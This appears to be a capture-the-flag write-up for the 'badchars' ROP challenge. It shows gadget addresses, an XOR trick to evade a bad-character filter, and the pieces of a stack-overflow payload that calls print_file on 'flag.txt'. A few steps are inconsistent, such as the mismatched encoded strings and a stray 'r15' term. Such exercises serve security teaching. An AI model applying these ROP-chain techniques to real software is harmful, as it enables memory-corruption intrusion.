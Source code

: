 # badchars
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 64-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We write string to data section address:
```
readelf
...
.data = 0x601028 >>> dataSect = 0x601028 + 0x8
...
```
We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars
...
0x0000000000400634 : mov qword ptr [r13], r12 (gadget2); ret # write string to buffer
...
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 (gadget1); ret # pop value and address to registers
...
0x00000000004006a0 : pop r14 ; pop r15 (gadget5); ret # pop xor value and address to registers
...
0x00000000004006a3 : pop rdi (gadget3); ret # pop string address to argument register
...
0x0000000000400628 : xor byte ptr [r15], r14b (gadget4); ret # do byte xor operation to ptr [byte] address
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Now, we can build our payload:

Firstly, write the xor string 'gm`f/uyu' to data section, then do byte xor operation to each byte to string, finally, pop the string address to rdi, and call print_file.

Same as before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop string 'fl`f/tyt' and data section address to r12 r13, and xor byte and data section byte address into r14 and r15.
```
p64(gadget1) + r15 + p64(dataSect) + p64(0x1) + p64(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p64(gadget2) + p64(gadget4)
```
Do xor operation to rest string byte 'g', '.', 'x'.
```
# 'f' ^ 1 = 'g'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+3) + p64(gadget4)
# '/' ^ 1 = '.'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+4) + p64(gadget4)
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Pop data section address to rdi.
```
p64(gadget3) + p64(dataSect)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```
